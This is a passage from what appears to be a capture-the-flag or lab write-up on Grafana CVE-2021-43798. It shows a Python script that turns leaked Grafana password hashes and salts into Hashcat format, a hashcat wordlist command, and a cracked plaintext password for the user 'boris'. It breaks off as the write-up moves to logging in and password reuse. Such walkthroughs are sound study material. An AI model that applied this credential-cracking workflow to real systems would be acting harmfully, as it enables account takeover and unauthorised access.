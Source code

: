 I found [this article](https://vulncheck.com/blog/grafana-cve-2021-43798) with some details on cracking grafana hashes.

I converted the script given in the article to (good enough) Python. 

```python
import hashlib
import base64

def calculate_hash(password, salt):
    decoded_hash = bytes.fromhex(password)
    salt_base64 = base64.b64encode(salt.encode('utf-8')).decode('utf-8')
    hash_base64 = base64.b64encode(decoded_hash).decode('utf-8')
    return f'sha256:10000:{salt_base64}:{hash_base64}'

# boris
boris_password = "dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8"
boris_salt = "LCBhdtJWjl"
boris_hash = calculate_hash(boris_password, boris_salt)

# admin
admin_password = "7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8"
admin_salt = "YObSoLj55S"
admin_hash = calculate_hash(admin_password, admin_salt)

print(f"[+] Boris hash: {boris_hash}")
print(f"[+] Admin hash: {admin_hash}")

with open("hashes.txt", "w") as file:
    file.write(boris_hash + "\n")
    file.write(admin_hash + "\n")

```

Once we've got the usable hashes in the `hashes.txt` file, we can move forward with cracking them with Hashcat. 

```console
$ hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```

The hash associated with the `boris` user cracked and we can recover the plaintext password. 

```console
$ cat cracked.txt
sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=:beautiful1
```

## Foothold 

As shown below, we can use those credentials for logging into Grafana, but there's not much we can do there, so we can check for password re-use instead. 
